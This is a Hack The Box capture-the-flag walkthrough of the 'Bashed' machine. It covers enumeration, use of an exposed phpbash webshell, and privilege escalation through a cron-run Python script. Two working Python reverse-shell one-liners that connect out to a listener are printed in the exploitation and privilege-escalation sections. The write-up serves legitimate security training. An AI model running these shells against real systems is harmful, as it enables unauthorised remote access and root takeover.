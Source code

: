 # HTB - Bashed

#### Ip: 10.10.10.68
#### Name: Bashed
#### Rating: Easy

----------------------------------------------------------------------

![Bashed.png](../assets/bashed_assets/Bashed.png)

### Enumeration

Lets begin enumerating this box by scanning all TCP ports. I will also speed this scan up by adding the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/HTB/Bashed]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.68
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-22 14:44 CDT
Nmap scan report for 10.10.10.68
Host is up (0.080s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.85 seconds
```

Ok, so looks like only port 80/http is up on this box. Let's go ahead and emumerate a bit further and port scan with the `-sC` and `-sV` flags set to enumerate versions and also throw some basic Nmap scripts at it:

![nmap.png](../assets/bashed_assets/nmap.png)

So looks like the site is running on Apache, but so far nothing else very interesting jumps out. From here lets try enumerating more and seeing if we can find more directories. For this I will use FeroxBuster, which is incredibly fast:

![feroxbuster.png](../assets/bashed_assets/feroxbuster.png)

Cool, we've found a few more directories to investigate, and  /dev seems particularly interesting.

Navigating to the site we find phpbash.php and that appears to be an interactive webshell, in which we can run various commands.

![web_shell.png](../assets/bashed_assets/web_shell.png)

### Exploitation

Grabbing a python reverse shell one-liner from https://www.revshells.com/ I simply set up a netcat listener and paste the following into the webshell:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.24",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![nc_shell.png](../assets/bashed_assets/nc_shell.png)

Nice! We now have a shell as www-data. I can quickly stabilize the shell using:

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

and grab the user.txt flag:

![user_flag.png](../assets/bashed_assets/user_flag.png)

### Privilege Escalation

From here I ran `sudo -l` to see what, if any commands can be run with elevated privileges.

```text
www-data@bashed:/home/arrexel$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

Interesting.. it appears I can run any command as user scriptmanager. I'll run `sudo -u scriptmanager bash` to change my user to scriptmanager:

```text
www-data@bashed:/home/arrexel$ sudo -u scriptmanager bash
sudo -u scriptmanager bash
scriptmanager@bashed:/home/arrexel$ whoami
whoami
scriptmanager
```

Now as user scriptmanager I will go back to enumerating the box. In the `/` I find a directory named scripts, which isn't typical. Looking at the scripts it appears there is a file test.py which writes to test.txt every minute. 

```text
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
testing 123!
```

I can confirm test.txt is being written to every minute by running `ls -la`, observing the date/time, waiting one minute and running the commmand again. 

![time_diff.png](../assets/bashed_assets/time_diff.png)

Also of note is the fact that scriptmanager owns the test.py file, whereas root is the owner of test.txt, so in theory I should be able to get a shell back as root if I can successfully inject a reverse shell into test.py. 

Lets try it out. First, I will set up a netcat listener `nc -lnvp 8888` and then run:

```text
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.24\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > test.py
```

to write the reverse shell into the cron-job.

Sure enough one minute later I catch a reverse shell as root on my netcat listener. After stabilizing the shell all thats left to do is grab the flag.

![root_flag.png](../assets/bashed_assets/root_flag.png)

### Key Takeaways

- Sometimes it's the features themselves that prove to be the biggest vulnerabilities. Having this webshell on a public facing site was clearly a bad idea.

- It pays to investigate machines manually once on the target, as you may find things that stand out as peculiar, that may warrant more investigating. It is not common to see a scripts directory in `/` which tipped me off to investigate more.

Thanks for following along!

Ryan

----------------------------------------------------------------------------------------------------------------
